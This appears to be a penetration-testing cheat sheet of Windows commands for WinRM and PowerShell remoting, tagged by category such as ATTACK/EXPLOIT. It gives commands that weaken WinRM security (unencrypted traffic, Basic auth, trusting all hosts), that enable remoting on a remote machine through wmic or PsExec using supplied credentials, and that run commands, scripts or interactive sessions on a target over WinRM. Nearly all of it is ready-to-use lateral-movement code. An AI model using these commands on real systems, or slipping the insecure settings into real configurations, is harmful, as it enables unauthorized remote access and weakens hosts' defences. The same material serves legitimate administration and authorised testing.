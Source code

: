 # windows
## Enable winrm 1/4 (cmd)
#plateform/windows #target/local #cat/UTILS 
```cmd
winrm quickconfig
```

## Enable winrm 2/4 (cmd)
```cmd
winrm set winrm/config/service @{AllowUnencrypted="true"}
```

## Enable winrm 3/4 (cmd)
```cmd
winrm set winrm/config/service/auth @{Basic="true"}
```


## Enable winrm 4/4 (cmd)
```cmd
winrm set winrm/config/client @{TrustedHosts="*"}
```

## Enable winrm (wmic)
#plateform/windows #target/local #cat/UTILS 
```batchfile
wmic /node:<REMOTE_HOST> process call create "powershell enable-psremoting -force"
```

## Enable winrm remotelly from psexec
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```batchfile
.\PsExec.exe \\<computername> -u <domain>\<username> -p <password> -h -d powershell.exe "enable-psremoting -force"  
```


# powershell

% windows, remote, winrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986

## Enable winrm (powershell)
#plateform/windows #target/local #cat/UTILS 
```powershell
Enable-PSRemoting -Force  
Set-Item wsman:\localhost\client\trustedhosts *  
```

## Test target is configure to use winrm (powershell)
#plateform/windows #target/local #cat/RECON 
```powershell
Test-WSMan -computername <computername>
```

## Execute a command on the target over winrm (powershell - double-hop)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT   
```powershell
$password=ConvertTo-SecureString '<password>' -Asplaintext -force;
$creds=New-Object System.Management.Automation.PSCredential("domain>\<username>", $password);
Invoke-Command -computername <computername> -ScriptBlock {<cmd>} -Credential $creds
```

## Execute a script on the target over winrm (powershell - double-hop)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
$password=ConvertTo-SecureString '<password>' -Asplaintext -force;
$creds=New-Object System.Management.Automation.PSCredential("domain>\<username>", $password);
Invoke-Command -ComputerName <computername> -FilePath <path_to_script> -Credential $creds
```

## Get a powershell session with winrm (powershell - double-hop)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
$password=ConvertTo-SecureString '<password>' -Asplaintext -force;
$creds=New-Object System.Management.Automation.PSCredential("domain>\<username>", $password);
$sess = New-PSSession -ComputerName <target_name> -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
```

## Register PSSession (powershell - double-hop)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
$password=ConvertTo-SecureString '<password>' -Asplaintext -force;
$creds=New-Object System.Management.Automation.PSCredential("domain>\<username>", $password);
Register-PSSessionConfiguration -Name <session_name>  -RunAsCredential $creds
Enter-PSSession -ComputerName <target_name> -Credential $creds -ConfigurationName <session_name>
```